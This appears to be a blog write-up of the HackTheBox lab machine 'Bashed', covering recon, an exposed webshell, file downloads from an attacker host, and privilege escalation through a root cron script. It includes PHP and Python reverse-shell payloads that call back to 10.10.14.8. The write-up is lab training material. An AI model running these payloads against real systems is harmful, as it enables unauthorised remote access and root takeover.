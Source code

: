 ```yaml
---
layout: post
title: HacktheBox - Bashed
subtitle: Retired Machine
tags: [htb]
comments: false
---
```


## Bashed ![propic](/pictures/bashed/bashedpic.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/bashed 10.10.10.68
```
![bashednmap](/pictures/bashed/bashednmap.png)

There is an open port 80 (http) from the default nmap script. We can visit the web page from your browser to look for clues.

![bashedhomepage](/pictures/bashed/bashed_homepage.png)

There is nothing too interesting from the initial look so I will run gobuster to identify any hidden directories.

```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![basheddirb](/pictures/bashed/bashed_dirb.png)

Off the bat, there are several subdirectories that pop up. I navigate to /dev and see the phpbash.php file. I click on the php file and obtain a webshell.

![bashedwebshell](/pictures/bashed/bashed_webshell.png)

Next, I want to create a persistent/reverse shell, so I go to pentestmonkey reverse shell cheat sheet and look for a php reverse shell command:
```
php -r '$sock=fsockopen("10.10.14.8",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Then on my attack host, I create a listener with netcat:
```
nc -lvnp 1234
```
This does not work, so I navigate to /var/www/html and view the uploads directory since that was a listed subdirectory that can be hit from the web i.e. 10.10.10.68/uploads.

From my attacker box, I run the command below to find a php reverse shell file to upload to the target based on the following keywords:
```
locate php reverse
```
I moved the php-reverse-shell.php file to /tmp. I update the file to listen on my attacker host ip and started up an http server via python with the following commands:
```
cp -r /usr/share/webshells/php/php-reverse-shell.php /tmp/php-reverse-shell.php
cd /tmp
python3 -m http.server 80
```
Now that the attacker box's http server is up and running, I can run wget from /var/www/html/uploads to obtain the file from the target's box through the obtained web shell:
```
wget 10.10.14.8/php-reverse-shell.php
```
Next, I ensure my netcat listener is still active over port 1234 and navigate to 10.10.10.68/uploads/php-reverse-shell.php on my browser. 

And voila, I have a reverse shell. I run the following command to upgrade the shell to a TTY:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Next is to escalate privileges. To check my current permissions, I run the command:

```
sudo -l
```
This lists that I can run all commands under the user: scriptmanager.

So, I can go ahead and run the command to get a bash shell as the scriptmanager user:
```
sudo -u scriptmanager bash
```
I run an ls-la and see that scriptmanager owns scripts/test.py which is writing to scripts/test.txt. It appears that test.txt is owned under root.

Since test.py is writing to test.txt, this means that root has a cronjob scheduled for this python script to run. This means that if the python script runs a reverse shell, it will be under root since root has the job under its ID.So, I open up a reverse shell cheatsheet from pentestmonkey and look for a python reverse shell.

I attempt to update the script via vim, but the text editor is wonky. So, I decide to delete the file's content with the command:
```
sed -i "d" test.py
```
Next, I echo each line into the python file:
```
echo 'import socket,subprocess,os' >> test.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py
echo 's.connect(("10.10.14.8",1234))' >> test.py
echo 'os.dup2(s.fileno(),0)' >> test.py
echo 'os.dup2(s.fileno(),1)' >> test.py
echo 'os.dup2(s.fileno(),2)' >> test.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> test.py
cat test.py
```
The cat command will show the contents of test.py having all the required lines for the reverse shell to complete. Next, I open up the listener via netcatover 1234 on my attack box, and get the root reverse shell.

![bashedroot](/pictures/bashed/bashed_root.png)
